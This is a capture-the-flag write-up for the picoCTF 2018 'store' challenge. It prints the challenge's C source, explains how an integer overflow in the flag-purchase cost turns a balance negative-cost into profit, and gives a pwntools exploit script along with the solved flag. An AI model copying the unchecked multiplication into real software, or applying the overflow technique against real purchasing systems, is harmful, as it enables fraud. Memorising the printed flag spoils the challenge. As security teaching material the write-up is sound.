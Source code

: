 # Problem
We started a little [store](https://2018shell1.picoctf.com/static/5f775969757dd025afe50827eb9db223/store), can you buy the flag? [Source](https://2018shell1.picoctf.com/static/5f775969757dd025afe50827eb9db223/source.c). Connect with ```2018shell1.picoctf.com 53220```.

## Hints:
Two's compliment can do some weird things when numbers get really big!

## Solution:

First, we download the files and try to execute
```bash
wget https://2018shell1.picoctf.com/static/5f775969757dd025afe50827eb9db223/store
wget https://2018shell1.picoctf.com/static/5f775969757dd025afe50827eb9db223/source.c
chmod +x ./store
./store

Welcome to the Store App V1.0
World's Most Secure Purchasing App

[1] Check Account Balance

[2] Buy Stuff

[3] Exit

 Enter a menu selection
```

Lets look at the source:
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){
        
        printf("Welcome to the Store App V1.0\n");
        printf("World's Most Secure Purchasing App\n");

        printf("\n[1] Check Account Balance\n");
        printf("\n[2] Buy Stuff\n");
        printf("\n[3] Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Current Auctions\n");
            printf("[1] I Can't Believe its not a Flag!\n");
            printf("[2] Real Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("Imitation Flags cost 1000 each, how many would you like?\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 1000*number_flags;
                    printf("\nYour total cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour new balance: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds\n");
                    }
                                    
                    
                }
                    
                    
                    
                
            }
            else if(auction_choice == 2){
                printf("A genuine Flag costs 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to purchase");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        printf("YOUR FLAG IS:\n");
                        }
                    
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}

            }
        }
        else{
            con = 1;
        }

    }
    return 0;
}
```

Lets try to understand. We can see out balance, and buy fake/real flags. fake costs 1000 and real costs 100000. We need the real flag.

There is a integer overflow that we can use.
If we buy many (```(2**31 + 100000) / 1000```) fake flags, the cost will become nagative and we will earn money. Then we can buy the real flag.

```python
#!/usr/bin/env python

from pwn import *
from time import sleep

debug = 1

user = 'roeesefi'
pw = '123123'


if debug == 1:
  p = process('./store')
else:
  p = remote('2018shell1.picoctf.com', 53220)

# Buy fake flags
print p.recvuntil(' Enter a menu selection')
p.sendline('2')
p.sendline('1')
p.sendline('2147684')

# Check balance
p.sendline('1')
print p.recvuntil(' Enter a menu selection')

# Buy original flag
p.sendline('2')
p.sendline('2')
p.sendline('1')

# Exit
p.sendline('3')
print p.recvall()
```

**The most funny this is that the flag isn't being read from a file, it is hard coded in the binary.**

**Strings could solve this as well :)**

Flag: picoCTF{numb3r3_4r3nt_s4f3_cbb7151f}